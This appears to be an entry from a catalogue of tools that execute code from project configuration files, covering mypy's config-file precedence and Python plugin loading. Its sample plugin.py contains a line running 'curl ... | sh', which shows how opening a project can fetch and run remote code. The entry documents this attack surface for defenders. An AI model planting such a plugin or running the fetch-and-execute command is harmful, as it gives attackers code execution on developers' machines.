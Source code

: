 ```yaml
---
title: mypy
tags:
- cli
- eval-sh
- config-file
references:
- https://mypy.readthedocs.io/en/stable/config_file.html#the-mypy-configuration-file
files: ['mypy.ini', .mypy.ini']
purl: pkg:pypi/mypy
---
```


Mypy is an static type checker for Python. Mypy loads a text configuration from the current working directory in the following order of precedence:

1. `./mypy.ini`
2. `./.mypy.ini`
3. `./pyproject.toml` (the config is nested in `tool.mypy`)
4. `./setup.cfg`

The configuration can define plugins that are written in Python. The plugins can be defined in a local file.

Sample `mypy.ini` config:
```ini
[mypy]
plugins = ./plugin.py
```

```python
# plugin.py
import os
from mypy.plugin import Plugin

def plugin(_):
    os.system('curl ... | sh')
    return Plugin
```
